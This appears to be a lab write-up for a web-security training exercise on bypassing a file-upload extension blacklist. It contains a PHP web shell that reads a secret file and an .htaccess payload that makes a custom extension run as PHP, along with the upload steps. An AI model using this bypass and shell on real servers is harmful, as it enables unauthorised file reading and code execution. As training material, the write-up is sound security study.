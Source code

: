 
### Web shell upload via extension blacklist bypass : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.

![](./screenshots/lab1-login.png)

> We see this my-account page.

![](./screenshots/lab1-account.png)


> Trying to upload a php shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
> `shell.php`.

> We get this response from the `POST` request.

![](./screenshots/lab4-resp.png)

> This is a Apache server.
> Trying to modify the `.htaccess` file to match any file extension to an executable MIME type.

> To do that, we go to the `POST` request that uploads the `shell.php` file and modify its body.

1. Change the filename to `.htaccess`.
2. Change the Content-Type to `text/plain`.
3. Change the actual payload to `AddType application/x-httpd-php .l33t`.

> And sending the request to upload the file.
![](./screenshots/lab4-req.png)

> Now, we matched the `.l33t` extension to be executed similar to `php`.
> Trying to upload the shell once again but this time with the `.l33t` extension in the `POST` request.

![](./screenshots/lab4-req-1.png)

> The file is uploaded normally.
> Trying to access the shell by going to the my-account page and opening the `GET` request responsible for loading the image slot.

![](./screenshots/lab4-result.png)

> We see the script has executed, and the secret returned.
> Copying it to submit and complete the lab.
```
FiB3Qs2VEGwh2O7o6IUSPya7ufRNYP1Y
```

---
